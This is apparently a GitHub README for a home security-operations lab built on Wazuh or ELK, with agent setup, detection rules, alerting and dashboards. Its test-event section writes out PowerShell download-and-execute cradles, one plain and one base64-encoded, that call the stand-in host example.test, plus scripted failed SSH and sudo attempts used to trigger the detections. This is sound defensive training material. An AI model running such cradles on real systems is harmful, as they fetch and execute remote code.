 # Cyber Eagle SOC Lab (Wazuh / ELK)

A mini-SOC you can run on your laptop or a VM. It ingests Windows + Linux logs,
fires detections (SSH brute force, suspicious PowerShell, sudo spikes), alerts to Slack/email,
and shows dashboards for triage. Includes **two tracks**:

- **Track A – Wazuh** (fastest path to SOC-style results)
- **Track B – ELK** (DIY Elasticsearch + Kibana + Logstash + Beats)

> Tip: Start with **Wazuh** first if you're brand new. Then try ELK to learn the plumbing.
> Default timezone: IST (Asia/Kolkata) — adapt to your env as needed.

---

## 0) Prereqs

- Ubuntu 22.04+ (or similar) host with Docker + Docker Compose plugin
- One Linux endpoint VM (Ubuntu/Debian) and one Windows endpoint VM
- Optional: Slack Incoming Webhook URL (for alerting), or SMTP creds

Install Docker (Ubuntu):

```bash
sudo apt-get update
sudo apt-get install -y ca-certificates curl gnupg lsb-release
sudo install -m 0755 -d /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] \
https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | \
sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io docker-compose-plugin
sudo usermod -aG docker $USER  # logout/login after this
```

---

## 1) Track A – Wazuh (Recommended First)

### 1.1 Bring up Wazuh (single-node)
```bash
git clone https://github.com/wazuh/wazuh-docker.git
cd wazuh-docker/single-node
./generate-indexer-certs.sh
docker compose up -d
```

- Dashboard: `https://<manager-ip>:5601` (Wazuh UI)
- Manager API: `https://<manager-ip>:55000`
- Verify: `docker ps` shows `wazuh.manager`, `wazuh.indexer`, `wazuh.dashboard`

### 1.2 Install agents on endpoints

**Linux endpoint (Ubuntu/Debian):**
```bash
curl -s https://packages.wazuh.com/4.x/bash/install.sh | sudo bash
sudo /var/ossec/bin/agent-auth -m <WAZUH_MANAGER_IP>
sudo systemctl enable wazuh-agent --now
```

**Windows endpoint:**
- Download matching Wazuh Agent MSI, install, set **Manager address** to `<WAZUH_MANAGER_IP>`, start service.

**Manager – verify agents:**
```bash
docker exec -it wazuh.manager /var/ossec/bin/list_agents -c
```

### 1.3 Ensure logs exist & generate test activity

**Linux endpoint:**
```bash
sudo apt-get install -y rsyslog
sudo systemctl enable --now rsyslog
ls -lah /var/log/auth.log

# Generate test events
bash scripts/linux_generate_auth_noise.sh   # from this repo (copy to endpoint), OR run inline:
for i in {1..7}; do ssh wronguser@localhost -o PreferredAuthentications=password -o PubkeyAuthentication=no; done
sudo -k; for i in {1..6}; do sudo -l; done
```

**Windows endpoint: enable PowerShell Script Block Logging (run as Admin):**
```powershell
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -ErrorAction SilentlyContinue | Out-Null
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name EnableScriptBlockLogging -Value 1 -Type DWord

# Generate test events
powershell -NoProfile -Command "IEX (New-Object Net.WebClient).DownloadString('http://example.test/script.ps1')"
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnaAB0AHQAcAA6AC8ALwBlAHgAYQBtAHAAbABlAC4AdABlAHMAdAAvAHMALgBwAHMAMQAnACkA
```

### 1.4 Load local detection rules
Copy `wazuh/wazuh-local_rules.xml` from this repo into the **manager** at:
`/var/ossec/etc/rules/local_rules.xml` then restart:

```bash
docker cp wazuh/wazuh-local_rules.xml wazuh.manager:/var/ossec/etc/rules/local_rules.xml
docker exec -it wazuh.manager /var/ossec/bin/wazuh-control restart
docker exec -it wazuh.manager tail -f /var/ossec/logs/alerts/alerts.json
```

### 1.5 Alerting (Slack quick integration)
- Put your Slack webhook in `wazuh/ossec_integration_snippet.xml` (or edit on manager).
- Copy the script to manager & restart:

```bash
docker cp wazuh/integrations/custom-slack wazuh.manager:/var/ossec/integrations/custom-slack
docker cp wazuh/ossec_integration_snippet.xml wazuh.manager:/var/ossec/etc/shared/ossec_integration_snippet.xml
# Manually merge the snippet into /var/ossec/etc/ossec.conf under <ossec_config> if desired.
docker exec -it wazuh.manager /var/ossec/bin/wazuh-control restart
```

> Alternative: configure SMTP in `ossec.conf` for email.

### 1.6 Dashboards
Open `https://<manager-ip>:5601` and create visualizations:
- **Failed SSH over time** (filter: `Failed password`)
- **Top Source IPs (failures)** (terms on `srcip`/`source.ip` if parsed)
- **Suspicious PowerShell over time**
- **Sudo actions over time**
Save as **BlueTrace SOC – Overview**.

---

## 2) Track B – ELK (DIY)

### 2.1 Prep host kernel setting
```bash
sudo sysctl -w vm.max_map_count=262144
echo "vm.max_map_count=262144" | sudo tee -a /etc/sysctl.conf
```

### 2.2 Start stack
```bash
cd elk
docker compose up -d
# Kibana: http://<manager-ip>:5601  | Elasticsearch: http://<manager-ip>:9200
```

### 2.3 Linux endpoint → Filebeat → Logstash
On Linux endpoint:
```bash
sudo apt-get update && sudo apt-get install -y filebeat
sudo cp elk/filebeat/filebeat.yml /etc/filebeat/filebeat.yml  # edit <MANAGER_IP>
sudo filebeat modules enable system
sudo systemctl enable filebeat --now
```

### 2.4 Windows endpoint → Winlogbeat → Logstash
- Extract Winlogbeat on Windows: `C:\Program Files\Winlogbeat`
- Copy `elk/winlogbeat/winlogbeat.yml` there and edit `<MANAGER_IP>`.
- Run as Admin:
```bat
cd "C:\Program Files\Winlogbeat"
winlogbeat.exe setup
powershell -ExecutionPolicy Bypass -File .\install-service-winlogbeat.ps1
Start-Service winlogbeat
```

### 2.5 Detections (Kibana Rules)
Create three rules with KQL from `detections/kibana-kql/*`:
- **SSH brute force** → 6+ events in 5 minutes grouped by `source.ip`
- **Suspicious PowerShell** → keywords pattern
- **Linux privilege escalation** → sudo spikes

### 2.6 Dashboards
Create Data View `logs-*`, then build charts and a dashboard
(**BlueTrace SOC – Overview**).

---

## 3) Mocking (no endpoints yet?)

- Use `mocking/auth.log` & point Filebeat on the manager at `mocking/filebeat.yml`.
- Or copy/paste and run the noise scripts on endpoints.

---

## 4) Incident Documentation
Use `reports/templates/incident_template.md` for each fired alert.
Export to PDF for your portfolio.

---

## 5) Troubleshooting

- **No data**: check Filebeat/Winlogbeat services and Kibana Discover → correct index pattern.
- **Wazuh agent disconnected**: version mismatch / network; view `/var/ossec/logs/ossec.log`.
- **Elasticsearch not starting**: ensure `vm.max_map_count=262144` and enough RAM (`ES_JAVA_OPTS` in compose).
- **Rules not firing**: wrong index name in rule, or timestamps out of range (sync NTP).

---

## 6) Credits / License
MIT – use freely for learning and portfolios.
